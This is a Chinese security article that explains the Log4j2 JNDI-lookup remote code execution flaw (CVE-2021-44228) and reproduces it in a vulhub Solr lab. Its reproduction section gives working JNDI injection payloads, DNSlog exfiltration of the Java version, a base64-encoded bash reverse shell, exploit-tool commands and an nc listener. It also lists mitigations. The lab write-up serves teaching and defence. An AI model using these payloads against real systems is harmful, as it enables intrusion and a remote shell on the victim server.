

[log4j2原理分析及漏洞复现](https://www.freebuf.com/articles/web/380568.html)
===================================================================

2023-12-13 13:52:07共 12632 字阅读需 50.5 分钟

> Log4j2 是一个用于 Java 应用程序的成熟且功能强大的日志记录框架。相比于 Log4j，其在性能、可靠性和灵活性方面都有显著改进。 CVE-2021-44228复现

### 0x01 log4j2简介

Log4j2 是一个用于 Java 应用程序的成熟且功能强大的日志记录框架。它是 Log4j 的升级版本，相比于 Log4j，Log4j2 在性能、可靠性和灵活性方面都有显著的改进。

**Log4j2 特点**

高性能：Log4j2 使用异步日志记录机制，可以提供比传统同步日志记录更高的吞吐量和更低的延迟，因此在高负载情况下仍然能够保持出色的性能。

灵活的配置：Log4j2 的配置文件使用 XML、JSON 或 YAML 格式，允许将日志的格式、目标以及日志级别等属性进行灵活的配置和定制。

多种输出目标：Log4j2 支持多种日志输出目标，包括控制台、文件、数据库、远程套接字、JMS 和 Apache Flume 等。你可以根据需求配置日志输出到不同的目标。

强大的过滤器和路由：Log4j2 支持过滤器功能，可以根据日志的级别、源、线程等条件进行过滤，在满足条件时决定是否记录日志。此外，还可以基于日志的特定属性进行路由，将不同的日志记录到不同的目标。

按需加载插件：Log4j2 使用插件架构，允许按需加载各种附加组件和扩展功能，如自定义输出目标、格式器、过滤器等。这使得 Log4j2 的功能可以根据需要进行扩展和定制。

上下文容器：Log4j2 提供了 ThreadContext 和 ContextMap 等上下文容器，用于在多线程环境中跟踪和管理日志记录。这对于识别和调试特定线程的日志非常有用。

总体而言，Log4j2 是一个功能强大且灵活的日志记录框架，旨在提供高性能的日志记录解决方案。它被广泛用于各种 Java 应用程序和框架中，帮助开发人员更好地管理和分析应用程序的日志信息。

**Log4j2组件的应用**

以下是一些使用 Log4j2 组件的中间件和应用程序的常见示例：

**Apache Tomcat - Java Web 服务器**

Apache Kafka - 分布式流处理平台

Apache ActiveMQ - 开源消息队列系统

Elasticsearch - 分布式搜索和分析引擎

**Spring Framework - Java 开发框架**

Hibernate ORM - 对象关系映射框架

Apache Camel - 企业集成模式框架

**Apache Solr - 开源搜索平台**

Apache Druid - 实时分析数据库

Apache NiFi - 数据流处理系统

**Apache Flink - 分布式流处理框架**

**Apache Hadoop - 分布式计算框架**

Apache Spark - 分布式大数据处理框架

Apache Storm - 实时流处理框架

Alfresco - 开源企业内容管理系统

Atlassian JIRA - 项目管理和缺陷追踪工具

**Jenkins - 持续集成和交付平台**

SonarQube - 代码质量管理平台

Liferay - 企业门户和内容管理系统

Graylog - 日志管理和分析平台

### 0x02 CVE-2021-44228

##### **漏洞简介：**

Apache Log4j2是一个基于Java的日志记录工具，当前被广泛应用于业务系统开发，开发者可以利用该工具将程序的输入输出信息进行日志记录。

2021年11月24日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞。该漏洞是由于Apache Log4j2某些功能存在递归解析功能，导致攻击者可直接构造恶意请求，触发远程代码执行漏洞，从而获得目标服务器权限。

在java中最常用的日志框架是log4j2和logback，其中log4j2支持**lookup**功能（查找搜索），这也是一个非常强大的功能，设计之初的目的也是为了方便开发者调用

例如当开发者想在日志中打印今天的日期，则只需要输出${data:MM-dd-yyyy}，此时log4j会将${}中包裹的内容单独处理，将它识别为日期查找，然后将该表达式替换为今天的日期内容输出为“08-22-2022”，这样做就不需要开发者自己去编写查找日期的代码。

表达式除了支持日期，还支持输出系统环境变量等功能，这样极大的方便了开发者。但是安全问题往往就是因为“图方便”引起的，毕竟设计者也是需要在安全性和用户体验之间做个平衡。

其实打印日期，打印系统变量这种对系统而言构不成什么威胁，最终要的原因是**log4j还支持JNDI协议。**

##### **漏洞适用版本**

2.0 <= Apache log4j2 <= 2.14.1

##### **漏洞原理**

Apache log4j2-RCE 漏洞是由于Log4j2提供的**lookup功能下的Jndi Lookup**模块出现问题所导致的，该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。

log4j是一款通用日志记录工具，开发人员可以使用log4j对当前程序状态进行记录。log4j的功能非常强大，开发人员除了直接记录文本外，还可以使用简单表达式记录动态内容，例如：

```
logger.info("system propety: ${sys:user.dir}");
```

###### **lookup功能**

Lookup 是一种机制，用于动态获取和替换日志记录中的变量或属性的值。它提供了一种灵活的方式，可以在日志消息中引用、解析和插入各种上下文相关的信息。

Log4j2 内置了多个 Lookup 实现，每个 Lookup 都有不同的用途和功能。以下是一些常见的 Lookup 类型：

${date}：获取当前日期和时间，支持自定义格式。

${pid}：获取当前进程的 ID。

${logLevel}：获取当前日志记录的级别。

${sys:propertyName}：获取系统属性的值，例如 ${sys:user.home} 获取用户主目录。

${env:variableName}：获取环境变量的值，例如 ${env:JAVA\_HOME} 获取 Java 安装路径。

${ctx:key}：获取日志线程上下文（ThreadContext）中指定键的值。

${class:fullyQualifiedName:methodName}：获取指定类的静态方法的返回值。

${mdc:key}：获取 MDC (Mapped Diagnostic Context) 中指定键的值。

使用${} 进行包裹，上述示例中，sys:user.dir 表示使用sys解析器，查找user.dir的内容，即在系统环境变量中查找user.dir，以替换 ${sys:user.dir} 进行打印。

**log4j中除了sys解析器外，还有很多其他类型的解析器。其中，jndi 解析器就是本次漏洞的源头。**

###### **jndi解析器**

jndi 解析器将通过 jdk 获取 jndi 对象，并使用这个 jndi 对象替换原有文本进行打印。 我们将 jndi 对象理解成为一个从程序外部获取的 Java 程序对象就可以了。jdk中提供了多种不同 jndi 对象的获取方式，获取方式可以称为schema，所以正常的包含jndi的日志记录方式如下：

```
logger.info("system propety: ${jndi:schema://url}");
```

其中，schema 是查找jndi对象的方式，jdk中支持 corbname, dns, iiop, iiopname, ldap, ldaps, rmi几种schema。

url是几种不同的schema下jndi的路径。不同的schema，url路径的配置方法不同。常用的schame是ldap，其url写法比较简单：`jndi:ldap://xxx.dnslog.cn`

jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。

因此，如果攻击者能够控制日志打印的内容，就可以使目标服务器从攻击者指定的任意url地址下载代码字节流，攻击者在字节流中附带的代码就会在目标服务器上执行。

**攻击者如何控制服务器上记录的日志内容呢？**

大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上 ${jndi:ldap://xxx.dnslog.cn}就可以使web服务从xxx.dnslog.cn下载字节流了。

###### **jndi是什么**

JNDI（Java Naming and Directory Interface，JAVA命名和目录接口）：它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。JNDI下面有很 多目录接口，用于不同的数据源的查找引用。

**JNDI注入主要是用下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务。**

###### **ldap服务**

LDAP(轻型目录访问协议)是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问 控制和维护分布式信息的目录信息。

目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈 树状结构组织数据，就好象Linux/Unix系统中的文件目录一样

###### RMI

RMI（远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。

### 0x03攻击过程

log4j2 远程代码执行漏洞大致过程（此处使用RMI，LDAP同理）： 假设有一个Java程序，将用户名信息到了日志中，如下：


a.攻击者发送一个HTTP请求，其用户名为${jndi://rmi:服务器地址/Exploit}

b.被攻击服务器发现要输出的信息中有 ${}，则其中的内容要单独处理，进一步解析是JNDI扩展内容且使用的是RMI，而后根据RMI服务器地址去请求Exploit。

c.RMI服务器返回Reference对象（用于告诉请求端所请求对象所在的类），而该Reference指定了远端 文件下载服务器上含有恶意代码的class文件。

d.被攻击服务器通过Reference对象去请求文件下载服务器上的class文件。

e.被攻击服务器下载恶意class文件并执行其中的恶意代码

LDAP  
当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中

a.假如日志中含有该语句${jndi:ldap:192.168.96.1:1099/exp}

b.被攻击服务器发现要输出的信息中有 ${}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.96.1:1099/exp

c.解析到ldap，就会去192.168.61.129:1099的ldap服务找名为exp的资源，如果找不到就会去http服务中找，在http中找到exp之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现exp是一个.class文件，就会去执行里面的代码，从而实现注入攻击者就可以通过shell实现任意的命令执行，造成严重危害

### 0x04漏洞复现

##### 漏洞环境

靶机：kali 192.168.100.134 vulhub/log4j/CVE-2021-44228


攻击机：windows 10 192.168.100.143

或者本地物理机

新版本工具地址：

exp:https://github.com/WhiteHSBG/JNDIExploit/releases/tag/v1.4

老版本工具地址：

exp:https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0

##### 1.访问靶机

靶机ip:8983


##### 2.dns回显验证

在注入点插入Payload

```
/solr/admin/cores?action=${jndi:ldap://vbdpkn.ceye.io}
```


查看cecy是否返回数据


查看java版本

```
${jndi:ldap://${sys:java.version}.vbdpkn.ceye.io}
${jndi:rmi://${sys:java.version}.vbdpkn.ceye.io}
${jndi:ldap://DNSlog地址/exp} //DNSolg地址
```

成功通过dnslog带了出来，对应的java版本


##### 3.将bash反弹shell命令编码备用

bash 命令反弹shell

```
bash -i >& /dev/tcp/192.168.100.143/8888 0>&1
```

`bash`: 启动一个 Bash shell。

`-i`: 打开一个交互式 shell 会话，允许用户输入命令和获取输出。

`>& /dev/tcp/192.168.100.143/8888`: 将标准输出和标准错误输出重定向到指定的 IP 地址为`192.168.100.143`、端口号为 \`8888 ’ TCP 连接。换句话说，它将尝试建立一个与该 IP 地址和端口号连接的网络套接字，并将输出发送到该连接。

`0>&1`: 将标准输入（文件描述符 0）重定向到标准输出（文件描述符 1），意味着输入和输出都将通过网络套接字进行传输。

base64编码：

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xNDMvODg4OCAwPiYx
```

##### 4.使用JNDIExploit进行漏洞利用

将上面base64编码后的bash命令填入指定位置

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar　-C "bash -c {echo,Base64编码后的Payload} | {base64,-d} | {bash,-i}" -A "攻击机IP"

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xNDMvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.100.143"
```


##### 5.在攻击机中开启监听

```
nc -lvvp 8888
```

##### 6.使用payload的进行攻击

```
http://192.168.100.134:8983/solr/admin/cores?action=${jndi:ldap://192.168.100.143:1389/isimox}

//将工具生成的JNDI链接服务放到url里面进行执行
```

##### 7.查看回显


反弹shell成功；

新版本工具使用：

其他基本操作，通过DNSlog判断回显同以上一致

可查看帮助：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -h
```


首先开启LDAP和HTTP服务：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar  -i 192.168.100.1 //攻击者IP

//可通过加参数来修改LDAP和HTTP服务的端口，具体参考--help帮助
```


```
java -jar JNDIExploit-1.4-SNAPSHOT.jar  -i 192.168.100.1 -u 
//查看用法
```


```
选择上面的任意一个ldap服务：
比如：
ldap://192.168.100.1:1389/Basic/ReverseShell/[ip]/[port]
构造：
ldap://192.168.100.1:1389/Basic/ReverseShell/192.168.100.1/8888
//攻击ip和监听端口
```

本地开启监听：


将构造的内容填入到${jndi:}当中，执行url


点击执行后，开启的LDAP和HTTP服务的监听端会返回信息：



再看本地监听的端口返回：

成功反弹shell


### 0x05漏洞修复

更新log4j至 rc2

配置防火墙策略，禁止主动连接外网设备

升级受影响的应用及组件

过滤相关的关键词，比如${jndi://\*}

限制JNDI默认可以使用的协议

限制可以通过LDAP访问的服务器和类

web

网络安全

web安全

网络安全技术